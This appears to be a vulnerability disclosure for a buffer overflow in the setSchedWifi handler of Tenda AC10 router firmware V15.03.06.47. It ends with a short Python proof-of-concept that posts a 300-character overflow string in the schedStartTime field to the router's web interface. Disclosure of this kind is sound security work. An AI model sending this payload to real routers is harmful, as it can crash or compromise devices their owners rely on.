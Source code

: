 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/setSchedWifi

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](4.png)

get value from schedStartTime ,and set enable = schedWifiEnable = 0

![](3.png)

as follow we set, get into line 73, call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/openSchedWifi"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'schedStartTime': payload, 'schedWifiEnable': 0})
``` 
